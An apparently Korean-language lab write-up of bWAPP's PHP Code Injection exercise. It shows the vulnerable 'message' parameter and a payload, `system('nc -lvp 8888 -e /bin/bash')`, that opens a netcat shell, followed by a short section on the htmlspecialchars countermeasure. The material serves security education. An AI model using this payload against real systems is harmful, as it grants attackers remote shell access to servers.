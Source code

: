 ```yaml
---
title: "[bWAPP] 1. Injection - PHP Code Injection"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## PHP Code Injection

![image-20220316023117510](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316023117510.png)

- message 누르면

![image-20220316023148120](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316023148120.png)

- URL에 변수 확인

<br>

### 삽입

![image-20220316023250426](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316023250426.png)

<br>

### System 명령어 사용

![image-20220316023524961](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316023524961.png)

`message=test;system('nc -lvp 8888 -e /bin/bash')`

- 포트 열어줌

<br>

![image-20220316023643171](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316023643171.png)

- Bbox IP로 포트에 연결

<br>

<br>

## 대응방안

### Linux

![image-20220317230730943](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317230730943.png)

- vi 편집기로 phpi.php 소스코드를 열어주면
- 레벨 0 = Low 일때는 요청받은 메시지 그대로 출력하고
- 레벨 1,2 = Medium, High 일 때는 htmlsecialchars 함수를 사용하고있다.
- htmlspecailchars : 메타문자가 html 태그로 사용되지 않도록 방지하여 그대로 출력하게 하는 함수.
